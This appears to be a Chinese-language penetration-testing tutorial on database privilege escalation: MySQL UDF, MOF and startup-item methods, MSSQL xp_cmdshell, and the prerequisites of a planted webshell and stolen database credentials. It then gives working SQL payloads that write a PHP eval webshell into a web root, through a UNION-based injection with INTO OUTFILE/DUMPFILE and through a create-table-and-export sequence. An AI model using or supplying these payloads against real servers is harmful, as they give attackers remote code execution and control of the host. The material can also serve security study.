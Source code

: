 ### 1.什么是数据库提权？

数据库提权就是利用执行数据库语句、利用数据库函数等方式提升服务器用户的权限

**MySQL的提权**

- 1、启动项提权：利用高权限的数据库用户（root）导出一个vbs脚本到启动项里

- 2、udf提权：导出一个udf.dll到c:\windows\system32,调用cmdshell函数执行cmd命令

- 3、mof提权：在c:/windows/system32/wbem/mof/目录下的nullevt.mof每分钟都会有一个特定的时间去执行一次   

**MSSQL的提权** 一般是调xp_cmdshell函数来提权

数据库提权首先我们要先有能力登入数库，所以通常拿到webshell之后要去网站目录去找数据库连接文件，常在形如xxx.conf或conf.xxx文件中。Sql.xx web.xml

### 2.数据库提权-前奏

* 已经上传webshell，寻找获取数据库的连接文件（目的获得数据库密码）

* 获取当前的一个数据库连接信息，通常包含地址、端口、账号、密码、库名等五个信息。

* 数据库具有create，insert，delete权限

* 寻找存在可读写的文件目录一般是回收站或tmp ，用于上传提权工具或者写入脚本

* windows是回收站是Recycled文件夹临时文件夹是temp

  Linux通常是没有回收站的，所以通常是用tmp临时文件夹

#### 2.1 数据库写马方法

 前提：

​	数据库当前用户为root权限

​	知道当前网站的绝对路径

​	PHP的GPC为 off状态

​	数据库有某个路径的写入权限 或 my.ini文件的secure_file_priv值为空，不等于NULL

（1）利用mysql注入点获取shell
	利用mysql注入点的联合查询，使用into outfile/dumpfile写入一句话木马
	?id=1 union select '一句话木马' into outfile '网站的绝对路径'
	？利用注入点getshell。但是无法使用联合查询，如何写一句话木马
	LINES TERMINATED BY/FIELDS TERMINATED BY

```
into outfile '网站绝对路径' LINES TERMINATED BY '<?php $_POST[cmd];?>'
into outfile 'E:\\PHP-Study\\WWW\\info.php' LINES TERMINATED BY '<?php eval($_POST[cmd]);?>'
等价于：
select '<?php eval($_POST[cmd]);?>' into outfile 'C:/phpStudy/WWW/outfile.php';
select '<?php eval($_POST[cmd]);?>' into dumpfile 'c:/phpstudy/www/dumpfile.php';
其中outfile和dumpfile的区别在于dumpfile不追加空行
```

（2）通过创建表来直接完成

```
CREATE TABLE `mysql`.`darkmoon` (`darkmoon1` TEXT NOT NULL );
INSERT INTO `mysql`.`darkmoon` (`darkmoon1` ) VALUES ('<?php @eval($_POST[pass]);?>');
SELECT `darkmoon1` FROM `darkmoon` INTO OUTFILE 'd:/www/exehack.php';//d:/www/exehack.php网站的绝对路径+文件名
DROP TABLE IF EXISTS `darkmoon`;
```
